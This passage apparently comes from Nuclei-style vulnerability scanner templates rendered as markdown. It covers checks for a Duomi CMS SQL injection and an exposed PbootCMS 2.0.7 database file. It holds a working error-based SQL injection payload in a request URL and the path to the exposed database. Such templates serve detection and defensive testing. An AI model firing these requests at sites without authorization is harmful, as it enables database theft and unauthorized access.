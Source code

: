 **Type - word**
- part - body
- words
    1. {{md5({{num}})}}

**Type - status**
- status
    1. 200

---
# Duomi CMS - SQL Injection
## Description
- Duomi CMS contains a SQL injection vulnerability. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - duomicms,sqli
## Requests
- Method - GET
### URL
- {{BaseURL}}/duomiphp/ajax.php?action=addfav&id=1&uid=1%20and%20extractvalue(1,concat_ws(1,1,md5({{num}})))
### Matchers

**Type - word**
- words
    1. {{md5({{num}})}}

**Type - status**
- status
    1. 200

---
# PbootCMS 2.0.7 - SQL Injection
## Description
- PbootCMS 2.0.7 contains a SQL injection vulnerability via pbootcms.db.  An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
- severity - critical
- tags - pbootcms,db,exposure,database,sqlite
## Requests
- Method - GET
### URL
- {{BaseURL}}/data/pbootcms.db
### Matchers
